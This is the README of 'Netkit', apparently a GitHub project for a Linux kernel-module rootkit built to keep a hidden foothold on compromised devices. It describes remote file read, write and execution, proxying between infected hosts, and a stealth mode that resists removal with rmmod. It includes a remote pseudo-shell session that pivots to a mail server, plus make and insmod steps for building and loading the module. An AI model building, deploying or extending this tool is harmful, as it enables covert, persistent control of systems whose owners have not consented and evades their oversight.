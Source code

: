 # Netkit

Netkit is a purposefully small rootkit which can be used by clients over network to maintain a sneaky foothold into a device.

### Overview
Netkit has several features:
- File read
- File write
- File execute (stderr + stdout)
- Proxy
- Self deletion (stopping the module from running and free'ing resources)

### Usage

Once the rootkit is loaded into the system, a user may want to interact with it using the provided psuedo-shell:
```bash
cd netkit
$ python3 client/shell.py 10.10.10.1:8008
10.10.10.1:8008/ $ hosts     
usage:
- hosts push <ip>:<port>
- hosts pop

10.10.10.1:8008/ $ hostname
gateway-1a723f

10.10.10.1:8008/ $ hosts push 10.10.10.2:8008
[+] successfully added device 10.10.10.2:8008 to hosts list
10.10.10.1:8008->10.10.10.2:8008/ $ hostname
mail-server

```

### Compilation
To run the rootkit, optionally tweak it in the configurations, build it using `make` and ship it using `insmod`, or any other kernel module loader.

**==== Please make sure to adjust `CONFIG_NETKIT_DEBUG` to your liking ====**

If `CONFIG_NETKIT_DEBUG` is enabled, then stealth mode is enabled and the rootkit can only be stopped using the self destruct / exit cmd (not using rmmod).

Make sure to set $KERNEL_DIR to your kernels' hedaer files, like `KERNEL_DIR=/usr/src/linux-headers-$(uname -r)`

```bash
git clone https://github.com/notselwyn/netkit/
cd netkit
make KERNEL_DIR=$KERNEL_DIR

ls -la netkit.ko
```

### Running it with notselwyn/kernel-scripts

Since the rootkit was developed with the author's [kernel-scripts](https://github.com/notselwyn/kernel-scripts), it's a breeze to debug and test. Simply download the scripts and compile a compatible Linux kernel.

To run the kernel:
```bash
cd netkit
create-image.sh
run.sh $KERNEL_DIR
```

To run and interact with the rootkit (make sure it's in debug mode to allow for `rmmod` in `run_kmod.sh`):
```bash
cd netkit
run_kmod.sh netkit.ko netkit
run_python.sh client/shell.py
```
